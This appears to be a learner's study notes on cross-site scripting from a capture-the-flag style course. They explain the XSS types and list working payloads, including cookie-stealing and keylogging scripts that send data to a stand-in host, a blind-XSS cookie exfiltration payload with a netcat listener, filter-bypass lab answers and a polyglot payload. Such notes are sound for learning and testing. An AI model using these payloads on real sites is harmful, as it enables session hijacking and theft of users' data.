 
# Intro to Cross-site Scripting (XSS)

## Overview
- **XSS** is an injection attack where malicious JavaScript is injected into a web application to be executed by other users.
- The **payload** is the JavaScript code to be executed, consisting of:
  - **Intention:** Desired action (e.g., alert, steal cookie)
  - **Modification:** Adjustments made for execution

## XSS Intentions and Payload Examples

### Proof of Concept
```html
<script>alert('XSS');</script>
```

### Session Stealing
```html
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

### Key Logger
```html
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```

### Business Logic Attack
```html
<script>user.changeEmail('attacker@hacker.thm');</script>
```

## XSS Types

### Reflected XSS
- Reflected user input is included in web page output without validation.
- Test vectors:
  - URL parameters
  - File paths
  - HTTP headers (rare)
- **Impact:** Session hijacking, data leakage

### Stored XSS
- Malicious payload is stored in a backend database and shown to users.
- Test points:
  - Blog comments
  - Profile information
  - Form inputs (e.g., age field manipulation)

### DOM-Based XSS
- JavaScript in the browser processes attacker-controlled input (e.g., `window.location.hash`).
- **Impact:** Redirects, cookie theft
- Look for use of:
  - `eval()`
  - Direct DOM insertion

### Blind XSS
- Payload triggers in another user's view (e.g., staff portal).
- Requires callback (e.g., fetch to server).
- Tools: XSS Hunter Express

## Practical Labs

### Level 1
```html
<script>alert('THM');</script>
```

### Level 2
```html
"><script>alert('THM');</script>
```

### Level 3
```html
</textarea><script>alert('THM');</script>
```

### Level 4
```html
';alert('THM');// 
```

### Level 5 (bypass filter)
```html
<sscriptcript>alert('THM');</sscriptcript>
```

### Level 6 (attribute injection)
```html
/images/cat.jpg" onload="alert('THM');
```

## Polyglot Payload
```html
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```

## Blind XSS Practical Example

### Payload to Exfiltrate Cookies
```html
</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie));</script>
```

### Netcat Listener
```bash
nc -nlvp 9001
```

### Base64 Decode Site
- https://www.base64decode.org/
